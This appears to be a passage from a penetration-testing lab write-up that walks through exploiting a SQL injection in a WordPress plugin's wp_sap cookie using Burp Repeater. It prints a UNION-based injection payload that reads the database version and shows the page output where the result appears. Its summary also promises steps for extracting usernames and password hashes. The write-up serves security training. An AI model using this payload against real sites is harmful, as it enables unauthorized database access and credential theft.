 -    With this cookie, we can start attempting to exploit the SQL injection vulnerability

# Summary
- Obtaing password hash from sql injection in mariadb
- Mariadb commands for obtain table name , username , password hash

----------------------------------------
----------------------------------------

## SQL Injection Exploitation

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/6.jpg)

-    captured a request with the vulnerable cookie, we can use it in** Burp’s “Repeater”**to attempt exploitation of the SQL injection

- find the request in Burp’s **“HTTP History” **tab that contained the cookie, right click it, and select “Send to Repeater”

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/7.jpg)

-    “Repeater” tab and view the cookie in its raw form

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/8.jpg)

-    Let’s take the payload from the original exploit, place it into the cookie, and send the request to the server.

```sql
["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]
```
-    According to the exploit, the payload can be inserted into the wp_sap cookie variable value.

-    The value of the cookie variable starts after the “=” sign and must end with a semicolon.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/9.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/10.jpg)
-    The exploit code mentions that the result of the SQL injection will be placed in the sss_params variable within a “script” tag.

-    Searching for the variable in Burp should take us to the location of the output from the SQL injection.

-    We can also set Burp to “auto-scroll” to this location in the future to make exploitation easier so we don’t have to scroll to find the output each time.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24_2/11.jpg)

-    In this output, we can see the version of the database in use. This shows us that the SQL injection worked!

```js
<script type='text/javascript'\>  
/\* <!\[CDATA\[ \*/  
var sss\_params = {"survey\_options":"{\\"options\\":\\"\[\\\\\\"bottom\\\\\\",\\\\\\"easeInOutBack\\\\  
\\",\\\\\\"\\\\\\",\\\\\\"\-webkit-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 2  
04) 70%);-moz-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);-  
ms-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);-o-linear-gr  
adient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);linear-gradient(top , rg  
b(255, 255, 255) 35% , rgb(204, 204, 204) 70%);\\\\\\",\\\\\\"rgb(0, 0, 0)\\\\\\",\\\\\\"rgb(93, 9  
3, 93)\\\\\\",\\\\\\"1\\\\\\",\\\\\\"0\\\\\\",\\\\\\"12\\\\\\",\\\\\\"9\\\\\\",\\\\\\"8\\\\\\",500,\\\\\\"Thank you for yo  
```